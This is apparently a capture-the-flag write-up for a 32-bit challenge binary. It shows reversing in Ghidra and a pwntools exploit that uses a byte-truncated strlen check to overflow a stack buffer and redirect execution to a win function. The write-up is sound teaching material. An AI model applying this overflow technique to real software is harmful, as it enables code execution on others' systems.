 # Vuln

Objective of this challenge is to call the `win` function.

This challenge was originally from: https://sploitfun.wordpress.com/2015/06/23/integer-overflow/
I did modify it in some ways.

Let's take a look at the binary:

```
$	file vuln 
vuln: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=b0d1dbf76b9c7c6ae45ab201775536d7b7096b2d, for GNU/Linux 3.2.0, not stripped
$	pwn checksec vuln 
[*] '/Hackery/pod/modules/integer_exploitation/int_overflow_post/vuln'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
$	./vuln 15935728 75395128
Valid Password
```

So we can see that we are dealing with a `32` bit binary with no PIE or Stack Canary. When we run it, we provide input via two arguments to the process.

## Reversing

When we take a look at the main function in Ghidra, we see this:

```
/* WARNING: Function: __x86.get_pc_thunk.bx replaced with injection: get_pc_thunk_bx */

undefined4 main(int argc,int argv)

{
  if (argc != 3) {
    puts("Usage Error:   ");
    fflush(stdout);
                    /* WARNING: Subroutine does not return */
    exit(-1);
  }
  validate_passwd(*(undefined4 *)(argv + 8));
  return 0;
}
```

So we can see that it checks to ensure that `argc` is `3` (which means two arguments in addition to the file name). After that it runs our second argument through the `validate_passwd` function:

```
/* WARNING: Function: __x86.get_pc_thunk.bx replaced with injection: get_pc_thunk_bx */

void validate_passwd(char *input)

{
  size_t inputLen;
  char vulnBuf [11];
  byte inputLenByte;
  
  inputLen = strlen(input);
  if (((byte)inputLen < 4) || (8 < (byte)inputLen)) {
    puts("Invalid Password");
    fflush(stdout);
  }
  else {
    puts("Valid Password");
    strcpy(vulnBuf,input);
  }
  return;
}
```

So we can see, that it takes the length of our input and stores it as a byte. If that byte is between `4-8`, then it will copy it over to the `vulnBuf` char array without any additional size checks.

We can also see the win condition here:

```
void win(void)

{
  int iVar1;
  
  iVar1 = __x86.get_pc_thunk.ax();
  puts((char *)(iVar1 + 0xe5a));
  return;
}
```

## Exploitation

So we will be using an Integer Overflow attack to trigger a buffer overflow. Thing is, the value returned by `strlen(input)` is casted to a byte. This means that only the least significant byte is actually evaluated in the if then check. So if we were to input a value of size `0x105`, it would see the size as `0x05`, and proceed to the `strcpy` call, which would give us code execution.

The rest of it is pretty much your standard buffer overflow.

## Exploit

Putting it all together, we have the following exploit:

```
from pwn import *

payload = ""
payload += "0"*0x18
payload += p32(0x080491a2)
payload += "1"*(0x105 - len(payload))

target = process(["./vuln", "0", payload])

target.interactive()
```

When we run it:

```
$	python exploit.py 
[+] Starting local process './vuln': pid 5961
[*] Switching to interactive mode
Valid Password
You Win
[*] Got EOF while reading in interactive
```

Just like that, we solved the challenge!
